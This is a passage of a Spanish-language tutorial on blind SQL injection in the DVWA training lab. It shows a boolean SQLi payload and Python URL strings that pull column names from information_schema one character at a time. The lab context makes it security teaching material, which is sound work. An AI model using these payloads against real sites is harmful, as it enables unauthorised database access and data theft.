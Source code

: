 El valor True, por lo que ya sabemos que hay que hacer, ir jugando hasta que el igual nos dé el valor exacto, para ahorrar esto no describiremos el proceso que ya sabemos hacer, por lo que al intentar descubrimos que existen 8 columnas.

Tendremos que averiguar la longitud del nombre de cada una de ellas, o también podríamos hacerlo sin la longitud e intuir hasta cuando termina el nombre de una columna.

Por ejemplo, ahora que lo haremos sin las longitudes, lo que haremos será lo siguiente:

`1' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_schema = 'dvwa' AND table_name = 'users' limit 1)='a' -- -`

Con esta consulta nos sirve para enumerar los nombre de las columnas, empezando por la primera, esto lo adaptaremos al script para enumerar datos, en este caso enumeraremos los nombres de las columnas:

Como esta vez no tenemos un aproximado de longitud para decirle al script cuando detenerse pondremos un 50 en el primer for:

`for position in range(1,51):`

Ahora toca modificar la consulta de la variable url, esta consulta es la que mostré anteriormente pero adaptada a python:

```py
url = "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1'+AND+(SELECT+SUBSTRING(column_name,%d,1)+FROM+information_schema.columns+WHERE+table_schema+=+'dvwa'+AND+table_name+=+'users'+limit+1)='%s'+--+-&Submit=Submit" % (position, character)
```

Después ejecutaremos el script y veremos lo siguiente:

![userid](/assets/images/DVWA-SQLi/SQLiBlind-easy/userid.png)

Podemos ver que nos enumeró el nombre de la primera columna, pero como no hay límite de caracteres el script sigue corriendo sin saber que ya no hay más posiciones que enumerar, pero simplemente si vemos que el script ya no avanza después de un rato podremos detenerlo con ctrl + c y así nos ahorraríamos hacer lo de obtener la longitud de cada columna, ya que puede ser un poco tedioso.

Así que haremos esto con las columnas restantes, jugando con cambiar el limit en cada ejecución del script, y las consultas quedarían así:

```py
url = "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1'+AND+(SELECT+SUBSTRING(column_name,%d,1)+FROM+information_schema.columns+WHERE+table_schema+=+'dvwa'+AND+table_name+=+'users'+limit+1)='%s'+--+-&Submit=Submit" % (position, character)
```

```py
url = "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1'+AND+(SELECT+SUBSTRING(column_name,%d,1)+FROM+information_schema.columns+WHERE+table_schema+=+'dvwa'+AND+table_name+=+'users'+limit+2,1)='%s'+--+-&Submit=Submit" % (position, character)
```
